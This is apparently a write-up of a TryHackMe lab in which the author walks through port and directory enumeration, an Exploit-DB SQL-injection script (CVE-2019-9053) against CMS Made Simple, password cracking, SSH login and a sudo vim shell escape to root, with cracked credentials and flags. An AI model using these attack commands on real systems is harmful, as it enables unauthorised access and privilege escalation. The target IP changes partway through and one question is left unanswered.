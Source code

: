 # Room: Agentt

## General Info
- **Room link:** [Agentt](https://tryhackme.com/room/agentt)

## Description

Deploy the machine and attempt the questions!

## Provided Files / Links
- [x] Target Machine IP (10.10.222.78)

## Enumeration / Recon
- Ports Enumeration

`nmap -sV 10.10.222.78`

```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
```

How many services are running under port 1000?
**2**

What is running on the higher port?


- Directories Enumeration

`gobuster dir -u 10.10.171.52 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100`

I found this directory:
`/simple               (Status: 301) [Size: 313] [--> http://10.10.171.52/simple/]`

When accessing the page, it's a CMS `CMS Made Simple` and the version is 2.2.8.

When looking for an exploit on this version I found the answer for the next question.

What's the CVE you're using against the application?
**CVE-2019-9053**

To what kind of vulnerability is the application vulnerable?
**SQLi** (SQL Injection)

## Exploitation

I downloaded this python script here https://www.exploit-db.com/exploits/46635 to exploit the CMS.

I ran the following command:
`python3 46635.py -u http://10.10.171.52/simple/ --crack -w /usr/share/wordlists/SecLists/Passwords/Common-Credentials/best110.txt `

And got the following results:
```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

What's the password?
**secret**

Where can you login with the details obtained?
**ssh**

## Target machine exploitation

From the results obtained in the first part of this ctf, we know that ssh is actually in port 2222.
To connect through ssh: `ssh mitch@10.10.171.52 -p 2222` with `secret` as the password.

I found the user flag in the user.txt file in the /home/mitch directory:
**G00d j0b, keep up!**

I found another user in the home directory: **sunbath**.

I then tried `sudo -l` to find the user's permissions and found the following:
```
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

I then went to https://gtfobins.github.io/gtfobins/vim/ and used this command to get root privleges: `sudo vim -c ':!/bin/sh'`

Being root now, I can find the flag in the root.txt file in the /root directory:
**W3ll d0n3. You made it!**
